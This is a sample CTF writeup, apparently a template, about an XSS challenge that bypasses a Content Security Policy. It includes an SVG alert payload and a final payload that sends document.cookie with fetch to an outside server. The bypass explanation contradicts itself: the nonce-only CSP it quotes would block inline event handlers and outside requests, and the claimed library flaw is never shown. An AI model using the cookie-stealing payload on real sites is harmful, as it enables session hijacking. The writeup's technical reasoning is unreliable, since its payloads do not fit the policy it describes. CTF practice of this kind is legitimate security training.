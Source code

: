 ```yaml
---
title: "Sample Writeup with Images"
date: "2025-06-19"
ctf: "Example CTF 2025"
category: "Web"
difficulty: "Medium"
points: 500
tags: ["xss", "javascript", "csp"]
author: "Tham Le"
solved: true
featured: true
banner: "assets/images/banners/sample-banner.jpg"
thumbnail: "assets/images/thumbnails/sample-thumbnail.jpg"
description: "A walkthrough of an interesting XSS challenge that required bypassing a Content Security Policy."
---
```


# Sample Writeup with Images

**Category:** Web  
**Difficulty:** Medium  
**Points:** 500  
**Event:** Example CTF 2025

## Challenge Description

This example shows how to format a writeup with images for the new version of the CTF writeups site.

The challenge asked us to bypass a strict Content Security Policy to execute JavaScript on the admin's browser.

**URL:** <https://example-ctf.com/challenge>

## Initial Analysis

When we first access the site, we're presented with a simple form that allows us to submit messages that an admin will review.

![Screenshot of challenge homepage](./images/homepage.png)

## Vulnerability Discovery

After inspecting the page, I noticed the Content Security Policy header:

```
Content-Security-Policy: default-src 'self'; script-src 'nonce-random123'
```

This CSP only allows scripts with a specific nonce attribute to execute.

## Exploitation

I discovered that the application was using an outdated library that had an XSS vulnerability. By crafting a special payload, I could bypass the CSP:

```javascript
<svg onload="alert(document.cookie)">
```

![Screenshot of payload execution](./images/payload.png)

## Solution

The final payload looked like this:

```html
<img src="x" onerror="fetch('https://my-server.com/?cookie='+document.cookie)">
```

## Flag

`CTF{th1s_1s_4_s4mpl3_fl4g}`

## Reflection

This challenge taught me the importance of:

1. Understanding CSP bypass techniques
2. Checking for outdated libraries
3. Being creative with payload delivery

## Additional Resources

- [Content Security Policy Reference](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
